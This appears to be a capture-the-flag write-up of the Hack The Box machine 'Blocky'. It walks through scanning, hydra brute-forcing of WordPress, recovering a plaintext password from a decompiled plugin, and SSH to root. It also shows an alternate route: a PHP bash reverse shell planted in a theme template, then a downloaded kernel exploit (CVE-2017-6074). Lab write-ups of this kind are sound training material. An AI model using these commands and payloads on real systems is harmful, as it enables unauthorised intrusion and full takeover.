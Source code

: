 # Blocky

```
kali@kali:~/htb/Blocky$ sudo nmap -Pn  10.129.1.53
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-25 08:03 EST
Nmap scan report for 10.129.1.53
Host is up (0.028s latency).
Not shown: 996 filtered ports
PORT     STATE  SERVICE
21/tcp   open   ftp
22/tcp   open   ssh
80/tcp   open   http
8192/tcp closed sophos
```

My default -sV and -sC do not work so I do a quick -Pn to see what we're dealing with. If needed I would return to do some more scanning.

I head to the webpage and I’m greeted by blockycraft! And there is a login page. Which differentiates username and password. So I’m gonna try hydra,


```
hydra 10.129.1.53 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:F:ERROR\: Invalid username. Lost your password?" -L /usr/share/wordlists/usernames.txt -p test -I
```

Hydra can be a bit tough to send correctly, I hope this one is good.

While that is running I check out the other options on the site. I click the first article and see a reply field. This might be a cross-site-scripting opportunity.

So let's try a simple XSS to see if it even works:

<script>alert(‘XSS’)</script>. This should create a popup message if it works. But it does not. The comment is simply posted with the <script>’s removed. I tried it on all fields as well, but to no avail. My hydra command has also slowed down a lot. Hmm. 

I decide to run dirbuster. But I don’t really find anything special.

I then remember that there are blog posts, and they probably include usernames… duh.

So we get a username “Notch”

I try hydra again: 

```
hydra 10.129.1.53 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:F=ERROR" -l Notch -P /usr/share/wordlists/rockyou.txt -I -V
```
Also my dirbuster is not working well, it is just running into empty links. So I’m gonna try Wfuzz and only looking for directories.

``` 
kali@kali:~/htb/Blocky$ sudo wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.129.1.53/FUZZ
```

-c outputs with colors

--hc=404 filters out 404 response pages

-w selects what wordlist to use


And Wfuzz finds a directory called plugins. So let's see if we find anything there. Note that my hydra is still running in the BG trying to find a password.

![](images/1.png)

We got something interesting here. Some java files, which is what is used for minecraft mods. Let’s see if we can find some interesting stuff. 

I decompress it with
```kali@kali:~/htb/Blocky$ unzip BlockyCore.jar -d Blockycore
Archive:  BlockyCore.jar
  inflating: Blockycore/META-INF/MANIFEST.MF  
  inflating: Blockycore/com/myfirstplugin/BlockyCore.class  
```
-d specifies a directory to unzip files

So now we can try to decompile it:

```
kali@kali:~/htb/Blocky/Blockycore/com/myfirstplugin$ javap -c  BlockyCore.class
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Compiled from "BlockyCore.java"
public class com.myfirstplugin.BlockyCore {
  public java.lang.String sqlHost;

  public java.lang.String sqlUser;

  public java.lang.String sqlPass;

  public com.myfirstplugin.BlockyCore();
    Code:
       0: aload_0
       1: invokespecial #12                 // Method java/lang/Object."<init>":()V
       4: aload_0
       5: ldc           #14                 // String localhost
       7: putfield      #16                 // Field sqlHost:Ljava/lang/String;
      10: aload_0
      11: ldc           #18                 // String root
      13: putfield      #20                 // Field sqlUser:Ljava/lang/String;
      16: aload_0
      17: ldc           #22                 // String 8YsqfCTnvxAUeduzjNSXe22
      19: putfield      #24                 // Field sqlPass:Ljava/lang/String;
      22: return

  public void onServerStart();
    Code:
       0: return

  public void onServerStop();
    Code:
       0: return

  public void onPlayerJoin();
    Code:
       0: aload_0
       1: ldc           #33                 // String TODO get username
       3: ldc           #35                 // String Welcome to the BlockyCraft!!!!!!!
       5: invokevirtual #37                 // Method sendMessage:(Ljava/lang/String;Ljava/lang/String;)V
       8: return

  public void sendMessage(java.lang.String, java.lang.String);
    Code:
       0: return
}

```

That third string is interesting. `8YsqfCTnvxAUeduzjNSXe22`

I try it with Notch in the login page, but it does not work. However ssh was open in the ports. So lets try that:


```
kali@kali:~/htb/Blocky/Blockycore/com/myfirstplugin$ ssh Notch@10.129.1.53
Notch@10.129.1.53's password: 
Permission denied, please try again.
Notch@10.129.1.53's password: 
Permission denied, please try again.
Notch@10.129.1.53's password: 

kali@kali:~/htb/Blocky/Blockycore/com/myfirstplugin$ ssh notch@10.129.1.53
notch@10.129.1.53's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Thu Sep 24 08:12:11 2020 from 10.10.14.2
/usr/bin/xauth:  file /home/notch/.Xauthority does not exist
notch@Blocky:~$ whoami
notch
notch@Blocky:~$ id
uid=1000(notch) gid=1000(notch) groups=1000(notch),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

Here we can see the importance of always trying both lower and uppercase. And we can see that notch is already a sudo user. So let's try to log in as root:

```
notch@Blocky:~$ sudo su
[sudo] password for notch: 
root@Blocky:/home/notch# whoami
root
root@Blocky:/home/notch# 
```

Great!

Although I am sad that hydra did not work.


## Comparing myself to the official writeup:

The official writeup an nmap with -T4 -A  and it revealed that minecraft was also running on port 25565. 

They ran into the same dirbusting issues I found. With php busting not working well on wordpress sites. They switched to directories only. As I did, although I used wfuzz and they kept using dirbuster.

They decompile the java files with JD-GUI. And found the credentials. And logged on with ssh. Used `sudo -i` to get root.

However they also pointed out a PhPAdmin route after finding the credentials in the java files.

So I decide to try that out at the end of this writeup.

## How to stop this exploit:

Very bad idea to keep plaintext credentials. And an even worse idea to keep it publicly available like this. And an even worse idea than that, to reuse that password as the root password of the machine. This is a cool example of an entirely user based mistake. As the user gave away the password. You could say that ssh could be turned off. But the biggest mistake here is clearly the plaintext public password reuse.


# Secondary foothold:

I navigate to 10.129.1.53/phpmyadmin

And log in with root:8YsqfCTnvxAUeduzjNSXe22 As found in the java files.

And go to the wordpress database:

![](images/2.png)

And click edit:

![](images/3.png)

We just set the user_pass to MD5 and enter our password:

![](images/4.png)

I press Go and login with Notch:DontReusePasswords on 10.129.1.53/wp-login. And I’m greeted with the admin panel:

![](images/5.png)

Now I’m mostly looking for somewhere to upload a php file as a reverse shell.

I go to Appearance->Editor in the wp-admin panel and add

```
<?php
        exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.21/1337 0>&1'");
?>
```

To the top of the header.php template. Set up a listener and enter the page in browser:

```
kali@kali:~$ sudo nc -nlvp 1337
Listening on 0.0.0.0 1337
Connection received on 10.129.1.53 41360
bash: cannot set terminal process group (1692): Inappropriate ioctl for device
bash: no job control in this shell
www-data@Blocky:/var/www/html$ whoami
whoami
www-data
www-data@Blocky:/var/www/html$ 
```

I downloaded and compiled this: https://github.com/xairy/kernel-exploits/blob/master/CVE-2017-6074/poc.c 

Compiled with: `kali@kali:~/htb/Blocky$ gcc -o poc poc.c`

I set up a webserver to download it:

```
kali@kali:~/htb/Blocky$ sudo python -m SimpleHTTPServer 8000
Serving HTTP on 0.0.0.0 port 8000 ...

```

And download it on the target:

```
www-data@Blocky:/var/www/html$ wget 10.10.14.21:8000/poc
wget 10.10.14.21:8000/poc
--2021-01-25 12:03:46--  http://10.10.14.21:8000/poc
Connecting to 10.10.14.21:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 23768 (23K) [application/octet-stream]
Saving to: 'poc'

     0K .......... .......... ...                             100%  797K=0.03s

2021-01-25 12:03:46 (797 KB/s) - 'poc' saved [23768/23768]

www-data@Blocky:/var/www/html$ 
```

I followed this up with chmod 777 to get execute permissions, and ran it:

```
www-data@Blocky:/var/www/html$ chmod 777 poc
chmod 777 poc
www-data@Blocky:/var/www/html$ ./poc
./poc
bash: cannot set terminal process group (1692): Inappropriate ioctl for device
bash: no job control in this shell
root@Blocky:/var/www/html# whoami
```

And I did get root, but I think the machine crashed… As nothing responded. And I tried pinging, unreachable… So I tried resetting the box and having another go.

```
www-data@Blocky:/var/www/html$ ./poc
./poc
bash: cannot set terminal process group (1698): Inappropriate ioctl for device
bash: no job control in this shell
root@Blocky:/var/www/html# whoami
whoami
root
```

There we go! Awesome. Two cool ways of doing this box. Some good experience with phpmyadmin and Wordpress, and a new root exploit.

The dccp_rcv_state_process function in net/dccp/input.c mishandles DCCP_PKT_REQUEST packet data structures in the LISTEN state. This allows local users to obtain root privileges by using an application that makes an IPV6_RECVPKTINFO setsockopt system call.

This can be fixed by updating to the latest linux release.
